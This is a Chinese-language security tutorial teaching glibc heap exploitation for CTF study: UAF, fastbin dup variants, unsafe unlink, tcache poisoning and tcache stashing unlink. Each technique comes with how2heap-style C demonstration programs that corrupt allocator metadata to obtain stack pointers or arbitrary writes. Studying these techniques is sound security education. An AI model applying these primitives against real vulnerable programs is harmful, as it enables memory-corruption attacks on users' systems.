



# 手把手带你搞懂堆利用套路-先知社区

> **来源**: https://xz.aliyun.com/news/18038  
> **文章ID**: 18038

---

### 前言

堆利用一直是 CTF 和安全研究中最具挑战性、同时也最具魅力的方向之一。相较于传统的栈溢出，堆的利用手法更加多样，依赖内存分配器的内部机制，攻击思路往往更具“艺术性”。

我在学习堆利用的过程中，发现很多攻击技术彼此之间既独立又紧密相关，理解一个点常常需要对 glibc 的堆实现有一定的了解。因此，我决定把这些常见的堆利用方式——包括 UAF、fastbin dup 系列（如 into stack、consolidate、reverse into tcache）以及 unsafe unlink 等——整理成这篇笔记，一方面帮助自己梳理知识，另一方面也希望对刚入门或正在深入的同学有所帮助。

这篇文章默认你已经掌握了基本的 C 语言指针操作、glibc 的 malloc/free 使用，以及一些基础的内存漏洞概念。如果你也在学习堆利用，或者正在做相关的 CTF 题，希望这篇内容能为你带来一点启发。

### UAF

free之后指针没有清零，结构体内存在函数指针。

简单的说，Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用。但是其实这里有以下几种情况

* 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
* 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么**程序很有可能可以正常运转**。
* 内存块被释放后，其对应的指针没有被设置为NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，**就很有可能会出现奇怪的问题**。

而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，**我们一般称被释放后没有被设置为NULL的内存指针为dangling pointer。**

### first\_fit

glibc 使用一种first-fit算法去选择一个free-chunk。如果存在一个free-chunk并且足够大(绕过fastbin)的话，malloc会优先选取这个chunk。这种机制就可以在被利用于use after free(简称 uaf) 的情形中.

UAF 漏洞简单来说就是第一次申请的内存释放之后，没有进行内存回收，下次申请的时候还能申请到这一块内存，导致我们可以用以前的内存指针来访问修改过的内存。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    fprintf(stderr, "尽管这个例子没有演示攻击效果，但是它演示了 glibc 的分配机制
");
    fprintf(stderr, "glibc 使用首次适应算法选择空闲的堆块
");
    fprintf(stderr, "如果有一个空闲堆块且足够大，那么 malloc 将选择它
");
    fprintf(stderr, "如果存在 use-after-free 的情况那可以利用这一特性
");

    fprintf(stderr, "首先申请两个比较大的 chunk
");
    char* a = malloc(0x512);
    char* b = malloc(0x256);
    char* c;

    fprintf(stderr, "第一个 a = malloc(0x512) 在: %p
", a);
    fprintf(stderr, "第二个 b = malloc(0x256) 在: %p
", b);
    fprintf(stderr, "我们可以继续分配
");
    fprintf(stderr, "现在我们把 "AAAAAAAA" 这个字符串写到 a 那里 
");
    strcpy(a, "AAAAAAAA");
    fprintf(stderr, "第一次申请的 %p 指向 %s
", a, a);

    fprintf(stderr, "接下来 free 掉第一个...
");
    free(a);

    fprintf(stderr, "接下来只要我们申请一块小于 0x512 的 chunk，那就会分配到原本 a 那里: %p
", a);

    c = malloc(0x500);
    fprintf(stderr, "第三次 c = malloc(0x500) 在: %p
", c);
    fprintf(stderr, "我们这次往里写一串 "CCCCCCCC" 到刚申请的 c 中
");
    strcpy(c, "CCCCCCCC");
    fprintf(stderr, "第三次申请的 c %p 指向 %s
", c, c);
    fprintf(stderr, "第一次申请的 a %p 指向 %s
", a, a);
    fprintf(stderr, "可以看到，虽然我们刚刚看的是 a 的，但它的内容却是 "CCCCCCCC"
");
}
```

程序展示了一个 glibc 堆分配策略，first-fit。在分配内存时，malloc 先到 unsorted bin（或者 fastbins）中查找适合的被 free 的 chunk，如果没有，就会把 unsorted bin 中的所有 chunk 分别放入到所属的 bins 中，然后再去这些 bins 里去寻找适合的 chunk。可以看到第三次 malloc 的地址和第一次相同，即 malloc 找到了第一次 free 掉的 chunk，并把它重新分配。

### fastbin\_dup

fast bins为单链表存储。fast bins的存储采用后进先出（LIFO）的原则：后free的chunk会被添加到先free的chunk的后面；同理，通过malloc取出chunk时是先去取最新放进去的。free的时候如果是fast bin，就会检查链表顶是不是要释放的chunk\_ptr。所以只要链表顶不是该chunk，就可以继续free，从而实现double free。

ptmalloc管理机制中，tcache的优先级是高于fastbin的，但是通过calloc函数申请的内存是跳过tcache的。fastbin dup技巧就是绕过tcache实现2.23版本下面的double free操作。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    fprintf(stderr, "这个例子演示了 fastbin 的 double free
");

    fprintf(stderr, "首先申请了 3 个 chunk
");
    char* a = malloc(8);
    strcpy(a, "AAAAAAAA");
    char* b = malloc(8);
    strcpy(b, "BBBBBBBB");
    char* c = malloc(8);
    strcpy(c, "CCCCCCCC");

    fprintf(stderr, "第一个 malloc(8): %p
", a);
    fprintf(stderr, "第二个 malloc(8): %p
", b);
    fprintf(stderr, "第三个 malloc(8): %p
", c);

    fprintf(stderr, "free 掉第一个
");
    free(a);

    fprintf(stderr, "当我们再次 free %p 的时候, 程序将会崩溃因为 %p 在 free 链表的第一个位置上
", a, a);
    // free(a);
    fprintf(stderr, "我们先 free %p.
", b);
    free(b);

    fprintf(stderr, "现在我们就可以再次 free %p 了, 因为他现在不在 free 链表的第一个位置上
", a);
    free(a);
    fprintf(stderr, "现在空闲链表是这样的 [ %p, %p, %p ]. 如果我们 malloc 三次, 我们会得到两次 %p 
", a, b, a, a);
    
    char* d = malloc(8);
    char* e = malloc(8);
    char* f = malloc(8);
    strcpy(d, "DDDDDDDD");
    strcpy(e, "EEEEEEEE");
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "第一次 malloc(8): %p
", d);
    fprintf(stderr, "第二次 malloc(8): %p
", e);
    fprintf(stderr, "第三次 malloc(8): %p
", f);
}
```

#### fastbin\_dup\_into\_stack

通过欺骗malloc 来返回一个我们可控的区域的指针 。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    fprintf(stderr, "这个例子拓展自 fastbin_dup.c，通过欺骗 malloc 使得返回一个指向受控位置的指针（本例为栈上）
");
    unsigned long long stack_var;

    fprintf(stderr, "我们想通过 malloc 申请到 %p.
", 8+(char *)&stack_var);

    fprintf(stderr, "先申请3 个 chunk
");
    char* a = malloc(8);
    strcpy(a, "AAAAAAAA");
    char* b = malloc(8);
    strcpy(b, "BBBBBBBB");
    char* c = malloc(8);
    strcpy(c, "CCCCCCCC");
    
    fprintf(stderr, "chunk a: %p
", a);
    fprintf(stderr, "chunk b: %p
", b);
    fprintf(stderr, "chunk c: %p
", c);

    fprintf(stderr, "free 掉 chunk a
");
    free(a);

    fprintf(stderr, "如果还对 %p 进行 free, 程序会崩溃。因为 %p 现在是 fastbin 的第一个
", a, a);
    // free(a);
    fprintf(stderr, "先对 b %p 进行 free
", b);
    free(b);

    fprintf(stderr, "接下来就可以对 %p 再次进行 free 了, 现在已经不是它在 fastbin 的第一个了
", a);
    free(a);

    fprintf(stderr, "现在 fastbin 的链表是 [ %p, %p, %p ] 接下来通过修改 %p 上的内容来进行攻击.
", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "第一次 malloc(8): %p
", d);
    char* e = malloc(8);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "第二次 malloc(8): %p
", e);
    fprintf(stderr, "现在 fastbin 表中只剩 [ %p ] 了
", a);
    fprintf(stderr, "接下来往 %p 栈上写一个假的 size，这样 malloc 会误以为那里有一个空闲的 chunk，从而申请到栈上去
", a);
    stack_var = 0x20;

    fprintf(stderr, "现在覆盖 %p 前面的 8 字节，修改 fd 指针指向 stack_var 前面 0x20 的位置
", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
    
    char* f = malloc(8);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "第三次 malloc(8): %p, 把栈地址放到 fastbin 链表中
", f);
    char* g = malloc(8);
    strcpy(g, "GGGGGGGG");
    fprintf(stderr, "这一次 malloc(8) 就申请到了栈上去: %p
", g);
}
```

#### fastbin\_dup\_consolidate

在分配large chunk的时候，首先会根据chunk的大小来获取对应的 large bin的index，然后判断fast bins中有没有chunk，如果有就调用 malloc\_consolidate()合并fast bins中的chunk，然后放到unsorted bin 中。unsorted bin中的chunk 会按照大小放到small或large bins中。

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

int main() {
    void* p1 = malloc(0x10);
    strcpy(p1, "AAAAAAAA");
    void* p2 = malloc(0x10);
    strcpy(p2, "BBBBBBBB");
    fprintf(stderr, "申请两个 fastbin 范围内的 chunk: p1=%p p2=%p
", p1, p2);
    fprintf(stderr, "先 free p1
");
    free(p1);
    void* p3 = malloc(0x400);
    fprintf(stderr, "去申请 largebin 大小的 chunk，触发 malloc_consolidate(): p3=%p
", p3);
    fprintf(stderr, "因为 malloc_consolidate(), p1 会被放到 unsorted bin 中
");
    free(p1);
    fprintf(stderr, "这时候 p1 不在 fastbin 链表的头部了，所以可以再次 free p1 造成 double free
");
    void* p4 = malloc(0x10);
    strcpy(p4, "CCCCCCC");
    void* p5 = malloc(0x10);
    strcpy(p5, "DDDDDDDD");
    fprintf(stderr, "现在 fastbin 和 unsortedbin 中都放着 p1 的指针，所以我们可以 malloc 两次都到 p1: %p %p
", p4, p5);
}
```

#### fast\_bin\_reverse\_into\_tcache

##### 原理

修改fastbin 释放的chunk的fd指针，指向伪造的chunk地址，实现任意地址覆盖。在从fast bin中malloc的时候取出一个chunk，会将剩余的chunk放回到tcahce中。而fd指针已经修改为fake\_chunk\_addr，所以fake\_chunk也会进入tcache bin的尾部，再次malloc的时候就会申请出来。

```
#include <stdio.h>

#include <stdlib.h>

#include <assert.h>

int main(){
  size_t stack_var[4];
  size_t *ptrs[14];
  for (int i = 0; i < 14; i++) ptrs[i] = malloc(0x40);
  for (int i = 0; i < 14; i++) free(ptrs[i]);
  for (int i = 0; i < 7; i++) ptrs[i] = malloc(0x40); // clean tcache
  size_t *victim = ptrs[7];
  victim[0] = (long)&stack_var[0] ^ ((long)victim >> 12); //poison fastbin
  malloc(0x40); // trigger,get one from fastbin then move the rest to tcache
  size_t *q = malloc(0x40);
  assert(q == &stack_var[2]);
}
```

有一点需要注意的是，放入 tcache bin的条件是tcache bin有空余，且fastbin取出后也有剩余。后者的判断方法是取出表头的fd指针指向的下一个chunk，判断是否为空。也就是从头部开始取的，再使用头插法插入 tcache bin。这样的话，排入tcache bin 后chunks的顺序就是与其在fastbin中是相反的，所以叫reverse。

### unsafe\_unlink

#### 概述

双向链表中移除/添加一个chunk时，会发生断链的操作，这个断链的过程就叫做unlink。

注意事项：unlink不发生在fastbin和smallbin中，所以fastbin和smallbin容易产生漏洞。我们一般是通过已知的全局变量伪造一个已经free的chunk。

chunk在free的时候会进行合并空闲chunk的操作，有向前和向后两种。我们在事先分配的一个chunk中伪造一个空闲chunk——通过修改prev\_inuse位来改变prev chunk的状态，再修改fd和bk指针绕过检查，这样高地址的chunk在free的时候就会认为prev chunk是空闲的，从而合并它。合并之后，p的指针会变为p-0x18。



```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
   
   uint64_t *chunk0_ptr;
   
   int main()
   {
       fprintf(stderr, "当您在已知位置有指向某个区域的指针时，可以调用 unlink
");
       fprintf(stderr, "最常见的情况是易受攻击的缓冲区，可能会溢出并具有全局指针
");
   
       int malloc_size = 0x80; //要足够大来避免进入 fastbin
       int header_size = 2;
   
       fprintf(stderr, "本练习的重点是使用 free 破坏全局 chunk0_ptr 来实现任意内存写入

");
   
       chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
       uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
       fprintf(stderr, "全局变量 chunk0_ptr 在 %p, 指向 %p
", &chunk0_ptr, chunk0_ptr);
       fprintf(stderr, "我们想要破坏的 chunk 在 %p
", chunk1_ptr);
   
       fprintf(stderr, "在 chunk0 那里伪造一个 chunk
");
       fprintf(stderr, "我们设置 fake chunk 的 'next_free_chunk' (也就是 fd) 指向 &chunk0_ptr 使得 P->fd->bk = P.
");
       chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
       fprintf(stderr, "我们设置 fake chunk 的 'previous_free_chunk' (也就是 bk) 指向 &chunk0_ptr 使得 P->bk->fd = P.
");
       fprintf(stderr, "通过上面的设置可以绕过检查: (P->fd->bk != P || P->bk->fd != P) == False
");
       chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
       fprintf(stderr, "Fake chunk 的 fd: %p
",(void*) chunk0_ptr[2]);
       fprintf(stderr, "Fake chunk 的 bk: %p

",(void*) chunk0_ptr[3]);
   
       fprintf(stderr, "现在假设 chunk0 中存在一个溢出漏洞，可以更改 chunk1 的数据
");
       uint64_t *chunk1_hdr = chunk1_ptr - header_size;
       fprintf(stderr, "通过修改 chunk1 中 prev_size 的大小使得 chunk1 在 free 的时候误以为 前面的 free chunk 是从我们伪造的 free chunk 开始的
");
       chunk1_hdr[0] = malloc_size;
       fprintf(stderr, "如果正常的 free chunk0 的话 chunk1 的 prev_size 应该是 0x90 但现在被改成了 %p
",(void*)chunk1_hdr[0]);
       fprintf(stderr, "接下来通过把 chunk1 的 prev_inuse 改成 0 来把伪造的堆块标记为空闲的堆块

");
       chunk1_hdr[1] &= ~1;
   
       fprintf(stderr, "现在释放掉 chunk1，会触发 unlink，合并两个 free chunk
");
       free(chunk1_ptr);
   
       fprintf(stderr, "此时，我们可以用 chunk0_ptr 覆盖自身以指向任意位置
");
       char victim_string[8];
       strcpy(victim_string,"Hello!~");
       chunk0_ptr[3] = (uint64_t) victim_string;
   
       fprintf(stderr, "chunk0_ptr 现在指向我们想要的位置，我们用它来覆盖我们的 victim string。
");
       fprintf(stderr, "之前的值是: %s
",victim_string);
       chunk0_ptr[0] = 0x4141414142424242LL;
       fprintf(stderr, "新的值是: %s
",victim_string);
   }
```

**chunk结构图**

```
+-------------------+
| prev_size         |  <-- 仅在前一个块空闲时存在
+-------------------+
| size              |
+-------------------+
| fd (if free)      |
+-------------------+
| bk (if free)      |
+-------------------+
| fd_nextsize (if free, large blocks only) |
+-------------------+
| bk_nextsize (if free, large blocks only) |
+-------------------+
| User data         |
+-------------------+
```

**inuse chunk和free chunk的结构**



malloc后返回的地址指向的是不加0x10（10进制的16，即`2*sizeof(size_t)`）的头部数据的地址，而chunks真实的ptr是包含头部数据的地址，即fast bins等中fd指针（或者其他bins中的bk指针）指向malloc\_ptr-0x10。

#### 出现场景

**malloc**从恰好大小合适的largebin中获取chunk，从比malloc要求大的largebin中取chunk。

**malloc\_consolidate()函数**用于将 fast bins 中的 chunk 与其物理相邻的chunk合并，并加入 unsorted bin 中。分为高地址（除top chunk）合并和低地址合并。

**realloc**向前扩展，合并物理相邻高地址空闲chunk。

**free**free之后，与前后空闲的chunk进行合并。

如果chunk不是 mmap生成的，并且物理相邻的前一个或者下一个chunk处于空闲状态，就需要进行合并。同样分为高地址（除top chunk）合并和低地址合并两种。将合并后的 chunk 加入 unsorted bin 的双向循环链表中。如果合并后的 chunk 属于 large bins，将 chunk 的 fd\_nextsize 和 bk\_nextsize 设置为 NULL，因为在unsorted bin 中这两个字段无用。

### tcahe

#### tcache\_poisoning

原理：修改tcache bin 中chunk的next指针，使其被覆盖为任意地址。

##### 概述

tcache 是 glibc 2.26 (ubuntu 17.10) 之后引入的一种技术（see [commit](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d5c3fafc4307c9b7a4c7d5cb381fcdbfad340bcc)），目的是提升堆管理的性能。但提升性能的同时舍弃了很多安全检查，也因此有了很多新的利用方式。

##### 结构体

tcache 引入了两个新的结构体，`tcache_entry` 和 `tcache_perthread_struct`。

这其实和 fastbin 很像，但又不一样。

**tcache\_entry**

```
/* We overlay this structure on the user-data portion of a chunk when   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{  
  struct tcache_entry *next;
} tcache_entry;

```

`tcache_entry` 用于链接空闲的 chunk 结构体，其中的 `next` 指针指向下一个大小相同的 chunk。

需要注意的是这里的 next 指向 chunk 的 user data，而 fastbin 的 fd 指向 chunk 开头的地址。

而且，tcache\_entry 会复用空闲 chunk 的 user data 部分。

**tcache\_perthread\_struct**

```
/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

# define TCACHE_MAX_BINS                64

static __thread tcache_perthread_struct *tcache = NULL;
```

每个 thread 都会维护一个 `tcache_perthread_struct`，它是整个 tcache 的管理结构，一共有 `TCACHE_MAX_BINS` 个计数器和 `TCACHE_MAX_BINS`项 tcache\_entry，其中

* `tcache_entry` 用单向链表的方式链接了相同大小的处于空闲状态（free 后）的 chunk，这一点上和 fastbin 很像。
* `counts` 记录了 `tcache_entry` 链上空闲 chunk 的数目，每条链上最多可以有 7 个 chunk。



#### tcache\_stashing\_unlink\_attack

##### 原理

malloc遍历unsorted bin找合适chunk的时候，如果不是恰好合适的大小，就会将其放入对应的small bin或者large bin。如果大小是small bin中的chunk，头插法插入对应链表。

calloc并不会首先从tcache bin中取chunk，而是遍历fast bin、small bin、large bin这些。

从small bin中取出一个chunk后，如果tcache bin有空余，会向剩余位置链入small bin中剩下的chunk。但是只检查了尾部一个的bk指针，并没有全部检查。

```
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>
int main(){
  size_t stack_var[8] = {0};
  size_t *x[10];
  stack_var[3] = (size_t)(&stack_var[2]);
  for(int i = 0;i < 10;i++) x[i] = (size_t *)malloc(0x80);
  for(int i = 3;i < 10;i++) free(x[i]);
  free(x[0]);//into unsorted bin, x[1] avoid merge
  free(x[2]);//into unsorted bin
  malloc(0x100);// bigger so all into small bin
  malloc(0x80); // cash one from tcache bin
  malloc(0x80); // cash one from tcache bin
  x[2][1] = (size_t)stack_var; //poison smallbin
  calloc(1,0x80); // cash x[0] from smallbin, move the other 2 into tcache bin
  assert(malloc(0x80) == &stack_var[2]);
  return 0;
}
```

参考链接：

<https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c>

<https://wiki.wgpsec.org/knowledge/ctf/how2heap.html>

<https://bbs.kanxue.com/thread-272416.htm#msg_header_h2_7>
